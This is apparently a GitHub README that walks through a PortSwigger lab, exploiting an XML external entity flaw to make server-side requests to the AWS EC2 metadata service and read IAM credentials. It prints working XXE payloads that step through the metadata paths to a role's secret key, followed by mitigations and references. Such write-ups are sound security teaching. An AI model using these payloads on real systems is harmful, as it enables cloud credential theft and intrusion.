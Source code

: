 

### 📁 `README.md` — XXE to SSRF (EC2 Metadata Access)

# 📦 Exploiting XXE to Perform SSRF and Access EC2 Metadata

**🧪 Lab Level:** Apprentice  
**🔐 Vulnerability:** XXE → SSRF  
**✅ Status:** Solved  
**🛠 Platform:** PortSwigger Web Security Academy  
**🎯 Objective:** Exploit an XML External Entity (XXE) vulnerability to perform a Server-Side Request Forgery (SSRF) and extract AWS IAM secrets from the EC2 metadata service.

---

## 🔍 Lab Summary

This lab simulates an AWS EC2 environment where the vulnerable server has access to the instance metadata endpoint at `http://169.254.169.254/`.  
The goal is to exploit the XXE vulnerability to send an SSRF request to the metadata endpoint and retrieve the **IAM SecretAccessKey** from the metadata API.

---

## ⚙️ Exploitation Workflow

### 1. 🔎 Intercept the Request

Go to any product page and click **Check stock**. Intercept the request using Burp Suite. You’ll see an XML payload like:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId=“1”</storeId>
</stockCheck>
````

---

### 2. 💣 Inject the External Entity (XXE + SSRF)

Replace the payload with:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

This will return a directory listing, usually containing the folder `/latest`.

---

### 3. 🧭 Traverse the Metadata API

Iterate over the metadata paths to reach the IAM credentials:

#### Example payloads:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/">
```

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
```

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/">
```

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
```

Finally, when you find a role (e.g. `admin`), fetch the secret:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
```

✅ The response should include JSON like:

```json
{
  "Code": "Success",
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYzEXAMPLEKEY",
  ...
}
```

---

## 🧠 Technical Insights

| Technique        | Description                                              |
| ---------------- | -------------------------------------------------------- |
| **XXE**          | Injecting a malicious DTD with external entity           |
| **SSRF**         | Redirecting server-side request to internal service      |
| **Metadata URL** | Default AWS internal endpoint: `http://169.254.169.254/` |
| **IAM Role**     | Exposed credentials used by the EC2 instance             |

---

## 🔐 Mitigations

* **Disable DTDs** in XML parsers
* **Restrict internal network access** from the XML parser
* **Use IAM instance profiles with least privilege**
* **Log and alert on internal metadata access**

---

## 📸 Screenshot (POC)

![XXE Metadata Lab Screenshot](https://github.com/Kabilala/xxe/blob/main/lab2/lab2.png)

---

## 🔗 References

* [📘 PortSwigger XXE Labs](https://portswigger.net/web-security/xxe)
* [🧠 SSRF + Metadata Explanation](https://hackerone.com/reports/312145)
* [🛡️ OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)

---

## 👩‍💻 Author

**Kaouthar Belkebir**
Cybersecurity & Pentesting Enthusiast | PortSwigger Warrior | TryHackMe Explorer
🔗 [LinkedIn](https://www.linkedin.com/in/kaouthar-belkebir)
